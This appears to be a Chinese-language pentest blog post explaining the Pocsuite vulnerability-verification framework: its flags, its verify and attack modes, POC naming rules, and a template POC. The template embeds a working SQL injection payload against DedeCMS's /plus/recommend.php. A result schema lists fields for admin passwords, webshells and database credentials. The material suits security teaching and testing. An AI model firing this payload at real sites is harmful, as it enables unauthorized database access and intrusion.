 ```yaml
---
draft: false
date: 2016-09-08 20:38:45
title: POC 框架 Pocsuite
description: 
categories:
  - Pentest
  - Python
tags:
  - pentest
  - tools
---
```


### 0x00 关于Pocsuite
Pocsuite 是知道创宇安全研究团队打造的一款基于漏洞与 POC 的远程漏洞验证框架。可以让我们不用考虑过多的细节，只要考虑验证代码就可以，它封装了一些我们常用的东西，比如requests，在我们平常使用requests是要考虑cookie、要考虑header，但是在框架下则不需要有这些考虑，因为这些东西框架都帮你解决了。

### 0x01 简单介绍
* 安装
    * 使用pip install pocsuite即可安装
    ![安装pocsuite](/img/post/pocsuite_install.png)
* 常用参数
    * -u 指定一个目标url
    * -f 指定一个存放目标url的文件
    * -r 指定一个存放poc的文件夹
    * --report 导出结果到html文件
    * --cookie 携带cookie
    * --referer 修改referer
    * --user-agent 修改UA
* 模式
    * 执行一个poc有两种模式
        * \-\-verify 漏洞验证模式(只是验证，不能更改服务器的东西)
        * \-\-attack 漏洞利用模式
    * 示例
        * ```pocsuite -u "http://www.xxxx.com" -r poc_path/poc_name.py --atack```
* poc编写
    * 可以新建一个文件夹，命名为mypoc，里面就放你自己写的poc(当然也可以在mypoc里新建文件夹放一类poc，对poc进行分类)
    * 此时示例(对目标进行常见服务的测试，加载一类多个poc脚本)
        * ```pocsuite -u "http://www.xxxx.com" -r poc_path/server/ --verify```

* poc的命名规范
    * 漏洞ID_版本号_漏洞类型(其中不能有大写字母，所有符号要改为```"_"```),大致如下：
        * _xxxx_struct2_2016_s2_016_code_execution.py
        * _xxxx_dedecms_20130715_sql_inj.py
* poc的编写流程
    * 导入pocsuite API模块
    * 创建TestPOC类
    * 填写POC信息
    * 编写_berify()方法
    * 编写_attack()方法
    * 注册类

### 0x02 实例
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# 导入pocsuite的必要模块
from pocsuite.net import req # requests模块，和requests用法完全一样
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register

class TestPOC(POCBase):
    """docstring for TestPOC"""
    vulID            = ''      # VUL ID
    version          = ''      # 版本号,默认为1
    author           = ''      # POC 作者的大名
    vulDate          = ''      # 漏洞公开的时间,不知道就写今天
    createDate       = ''      # 编写 POC 的日期
    updateDate       = ''      # POC更新的时间,默认和编写时间一样
    references       = ['']    # 漏洞地址来源,0day 不用写
    name             = ''      # POC 名称
    appPowerLink     = ''      # 漏洞厂商主页地址
    appName          = ''      # 漏洞应用名称
    appVersion       = ''      # 漏洞影响版本
    vulType          = ''      # 漏洞类型,类型参考见 漏洞类型规范表
    desc             = ''' ''' # 漏洞简要描述
    samples          = []      # 测试样例,就是用 POC 测试成功的网站url，选填
    install_requires = []      # POC 第三方模块依赖，请尽量不要使用第三方模块

    def _verify(self, verify=True): # 漏洞测试代码
        result = {}
        target_url = self.url

        # 这里写入漏洞测试代码
        path = "/plus/recommend.php"
        payload = "?action=&aid=1&_FILES[type][tmp_name]=\\%27%20or%20mid=@`\\%27`%20/*!50000union*//*!50000select*/1,2,3,(select md5(512341)),5,6,7,8,9%23@`\\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294"
        html = req.get(target_url + path + payload, timeout=10).content
        if '5e8523b1645e6225001b9027cddc1c85' in html:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url + path
            result['VerifyInfo']['Path'] = path
            result['VerifyInfo']['Payload'] = payload
        
        return self.parse_attack(result)

    def _attack(self): # 漏洞利用代码
        # result = {}
        # # 先进行检测是否存在漏洞
        # if not self._verify(verify=False):
        #     return self.parse_attack(result)
        # target_url = self.url

        # # 这里写漏洞利用代码

        # return self.parse_attack(result)
        
        return self._verify() # 如果没漏洞利用代码，可以直接return测试函数

    def parse_attack(self, result): # poc输出函数，可以输出错误和成功信息
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Nothing returned')
        return output

register(TestPOC) #注册类
```

### 0x03 关于poc中result字典的内容
> ```
# result是一个字典，里面存储所有的漏洞信息:
result：{
    'DBInfo': {
        'Username': '管理员用户名',
        'Password'：'管理员密码',
        'Salt': '加密盐值',
        'Uid': '用户ID',
        'Groupid': '用户组ID'
        }
    'ShellInfo': {
        'URL': 'Webshell地址',
        'Content': 'Webshell内容'
        }
    'FileInfo': {
        'Filename': '文件名称',
        'Content': '文件内容'
        }
    'XSSInfo': {
        'URL': '验证URL',
        'Payload': '验证Payload'
        }
    'AdminInfo': {
        'Uid': '管理员ID',
        'Username': '管理员用户名',
        'Password': '管理员密码'
        }
    'Database': {
        'Hostname': '数据库主机名',
        'Username': '数据库用户名' ,
        'Password': '数据库密码',
        'DBname': '数据库名'
        }
    'VerifyInfo': {
        'URL': '验证URL',
        'Postdata': '验证POST数据',
        'Path': '网站绝对路径'
        }
    'SiteAttr': {
        'Process': '服务器进程'
        }
}
```